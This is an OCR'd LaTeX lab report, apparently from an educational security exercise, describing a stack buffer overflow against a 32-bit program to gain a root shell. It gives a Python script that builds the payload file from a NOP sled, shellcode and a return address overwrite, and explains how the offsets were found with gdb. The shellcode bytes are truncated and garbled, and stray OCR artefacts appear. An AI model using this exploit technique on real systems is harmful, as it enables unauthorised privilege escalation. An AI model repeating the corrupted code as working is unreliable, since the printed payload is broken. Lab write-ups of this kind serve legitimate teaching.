 \documentclass[10pt,\jkfside,a4paper]{article}
\begin{document}
\section{Buffer Overflow Attack}

\setcounter{subsection}{2}

\subsection{Task 3: Launching Attack on 32-bit Program}

I was able to launch a root shell through the vulnerable program. The code I
used to generate the badfile is below:
\begin{python}
#!/usr/bin/python3
import sys

shellcode= (
  "\x2f\x2f\x2f"
  "\x6e"
  "\x0b\xcd{}"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################

start = len(content) - len(shellcode)
content[start:start + len(shellcode)] = shellcode

ret    = 0xffffca18 + 200
offset = 112

L = 4
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little')

##################################################################

with open('badfile', 'wb') as f:
  f.write(content)
\end{python}

Since we were compiling in 32-bit code, I noticed that we should use the
32-bit shellcode. Next, I used the debugger to determine the distance
between the base pointer \texttt{ebp} and the start of the buffer which we would
overflow. This was 108 bytes. \texttt{ebp} points 4 bytes below the return
address. So I set the badfile to contain the malicious return address at
offset 112. I realised that all data above the arguments to \texttt{bof}
would be deallocated when we returned. So the shellcode should be placed
below the arguments. To maximise the size of the NOP sled, I placed the
shellcode at the end of the badfile.

To establish where to jump, I used the gdb to determine the address of the
base pointer \texttt{ebp}. I then added an offset to this (to account for
what was pushed by gdb) and the exploit worked with an offset of 200.
\end{document}
